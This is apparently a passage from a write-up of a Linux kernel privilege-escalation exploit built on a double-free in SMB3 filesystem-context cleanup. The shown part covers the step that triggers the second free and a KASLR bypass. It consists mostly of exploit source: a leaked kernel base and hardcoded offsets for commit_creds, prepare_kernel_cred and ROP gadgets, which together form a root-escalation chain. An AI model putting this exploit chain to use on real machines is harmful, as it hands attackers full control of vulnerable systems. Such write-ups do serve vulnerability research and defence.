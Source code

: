 ### Step2.3: Free vulnerable object the second time
- Exploit code [exploit.c#L597](./exploit.c#L597):

```c
static inline void trigger_second_free(int fsfd)
{
  close(fsfd);
}
```

- Kernel code:

```c
void
smb3_cleanup_fs_context_contents(struct smb3_fs_context *ctx)
{
  ...
	kfree_sensitive(ctx->password);
	ctx->password = NULL;
  ...
}
```

## Step3: Bypass KASLR
- [exploit.c#L893](./exploit.c#L893):

```c
kernel_base = leak_kernel_base();
printf("[+] kernel base: 0x%016lx\n", kernel_base);

init_task += kernel_base;
init_fs += kernel_base;
prepare_kernel_cred += kernel_base;
commit_creds += kernel_base;
find_task_by_vpid += kernel_base;
swapgs_restore_regs_and_return_to_usermode_nopop += kernel_base;
mov_rsp_rbp_pop_rbp_ret += kernel_base; 
pop_rdi_ret += kernel_base;
mov_rdi_rax_rep_ret += kernel_base;
pop_rsi_ret += kernel_base;
pop_rcx_ret += kernel_base;
mov_qword_ptr_rax_rsi_ret += kernel_base;
add_rax_rcx_ret += kernel_base;
```

- Offsets from kernel base [exploit.c#L42](./exploit.c#L42):

```c
uint64_t init_task = 0x2615a40;
uint64_t init_fs = 0x27b3de0;
uint64_t find_task_by_vpid = 0x1b64f0;
uint64_t prepare_kernel_cred = 0x1bfea0;
uint64_t commit_creds = 0x1bfc00;
uint64_t swapgs_restore_regs_and_return_to_usermode_nopop = 0x1201146;
uint64_t mov_rsp_rbp_pop_rbp_ret = 0x12de6c;
uint64_t pop_rdi_ret = 0xa61d8;
uint64_t pop_rsi_ret = 0x9b676;
uint64_t mov_rdi_rax_rep_ret = 0x117b93b;
uint64_t pop_rcx_ret = 0x37f1b3;
uint64_t mov_qword_ptr_rax_rsi_ret = 0x1e8ab3;
uint64_t add_rax_rcx_ret = 0xb13ccd;
```
